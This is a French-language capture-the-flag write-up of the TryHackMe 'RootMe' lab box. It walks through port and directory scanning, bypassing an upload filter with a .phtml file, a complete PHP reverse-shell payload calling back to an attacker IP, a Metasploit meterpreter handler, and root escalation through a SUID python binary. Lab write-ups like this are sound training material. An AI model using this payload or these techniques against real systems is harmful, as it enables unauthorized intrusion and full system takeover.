


##### <u>**1. NMAP**</u>

> sudo nmap -sSV -sC 10.10.5.56

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-14 23:21 CET
Nmap scan report for 10.10.5.56
Host is up (0.064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.41 seconds

```

On peut voir que le port 22(ssh) est le port 80(http) sont ouvert.

Il serait donc intéressant de tenter un gobuster sur le port 80.


##### <u>**2. GOBUSTER**</u>

> gobuster -u http://10.10.5.56 -w ~/Documents/wordlist/common.txt -t 40 -x .php,.txt,.html
>

- `-u  :  Target.`
- `-w :  Wordilist.`
- `-t   :  Nombre de threads à lancer (par défaut 10).`
- `-x  : Extension ciblée.`

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.5.56/
[+] Threads      : 40
[+] Wordlist     : /home/ethost/Documents/wordlist/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : html,php,txt
[+] Timeout      : 10s
=====================================================
2021/01/14 23:21:05 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.hta (Status: 403)
/.hta.html (Status: 403)
/.hta.php (Status: 403)
/.hta.txt (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
=====================================================
2021/01/14 23:21:43 Finished
=====================================================
```

2 directory intéressant sont visible, */panel* ainsi que */uploads* avec un status 301(**Moved Permanently**).

Allons voir ce qu'il y a dessus.

- http://10.10.5.56/panel/:


Cela ressemble à un système d'upload de fichier/image, allons maintenant voir le /upload pour savoir ce qu'il contient.

- http://10.10.5.56/uploads/


Nous sommes donc sur une page index qui pourrait contenir des fichiers/images, cela pourrait être le repertoir ou le /panel stocke c'est fichiers.

On va tester ça!



L'upload de l'image à bien fonctionné, retournons sur la page d'uploads.


Bingo! On peut donc bien uploads des images et les ouvrir grâce aux répertoires panel et uploads.

Testons d'upload un reverse shell en php.


Mince, l'upload bloque l'extension php..

Testons des variantes d'extension php.


Il semblerai que le .phtml passe!

Reverse shell injecté:

```php
/*<?php /**/ error_reporting(0); $ip = '10.8.152.244'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```


Ok, maintenant nous avons plus qu'à lancer msfconsole en mode super utilisateur.

##### **<u>3. MSFCONSOLE</u>**

Nous allons utiliser l'exploit suivant:

> use exploit/multi/handler
>

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
```

Lancer la commande *options* pour voir ce que nous demande l'exploit.

```
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

```

Il est nécessaire de set le LHOST (local host), ajoutez l'ip avec la commande suivante:

> set LHOST 10.8.152.244

```
msf6 exploit(multi/handler) > set LHOST 10.8.152.244
LHOST => 10.8.152.244
```

Il nous faudra ensuite un payload permettant d'ouvrir une session meterpreter, le suivant fera l'affaire:

> php/meterpreter/reverse_tcp
>

```
msf6 exploit(multi/handler) > set PAYLOAD php/meterpreter/reverse_tcp
pAYLOAD => php/meterpreter/reverse_tcp
```

Bien, il ne nous reste plus qu'à lancer l'exploit puis lancer le reverse shell qui se trouve sur la machine cible.

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.152.244:4444 
```




Nous voila connecté à la machine distante!

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.152.244:4444 
[*] Sending stage (39282 bytes) to 10.10.5.56
[*] Meterpreter session 1 opened (10.8.152.244:4444 -> 10.10.5.56:37884) at 2021-01-15 00:19:49 +0100
```


Lancer la commande *shell* sur mertepreter pour obtenir un shell, puis taper bash-i afin d'avoir un prompt plus décent.

```
meterpreter > shell
Process 1686 created.
Channel 0 created.
bash -i
bash: cannot set terminal process group (958): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/var/www/html/uploads$ 
```

Nous voilà dans le système avec l'utilisateur www-data,

Nous avons comme indice que le flag user ce trouve dans un fichier user.txt, utilisons find pour le trouver plus facilement!

> find / -name user.txt 2>/dev/null
>

```
www-data@rootme:/var/www/html/uploads$ find / -name user.txt 2>/dev/null
/var/www/user.txt
```

Trouvé! :D

Plus cas le cat pour avoir le flag.

> cat /var/www/user.txt
>

```
www-data@rootme:/var/www/html/uploads$ cat /var/www/user.txt
THM{XXXXXXXXXXXXX}
```

Maintenant il va falloir trouver une faille afin de pouvoir monter en privilèges jusqu'au root.


##### **<u>4. Privilege Escalation</u>**

Regardons ce qu'il y a d'installer sur la machine.

> find / -perm /4000 -user root 2>/dev/null | grep -v Perm
>

```
www-data@rootme:/var/www/html/uploads$ find / -perm /4000 -user root 2>/dev/null | grep -v Perm
</ -perm /4000 -user root 2>/dev/null | grep -v Perm
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
```

Python est installé, allons voir les droits du fichier.

> ls -l /usr/bin/python
>

```
www-data@rootme:/var/www/html/uploads$ ls -l /usr/bin/python
ls -l /usr/bin/python
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

Python possède un sticky bit sur l'utilisateur est le groupe, ce qui signifie que nous pouvons utiliser ce dernier en tant que root.

Parfait, plus qu'à trouver une commande qui me permette de passer root via python.

https://gtfobins.github.io/gtfobins/python/

> python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
>

Cette commande permet l'escalade de privilège ainsi que le maintien d'accès, testons la!

```
www-data@rootme:/var/www/html/uploads$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

Yes! Elle m'a ouvert un nouveau shell en tant que root.

Plus qu'à trouver le flag qui se trouve dans le fichier root.txt.

> find / -name root.txt 2>/dev/null
>

```
find / -name root.txt 2>/dev/null
/root/root.txt
```

> cat /root/root.txt
>

```
cat /root/root.txt
THM{XXXXXXXXXXXXXXX}
```


Celà conclu donc la box <u>RootMe</u> sur la plateforme <u>TryHackMe</u>.

<u>Ethost.</u>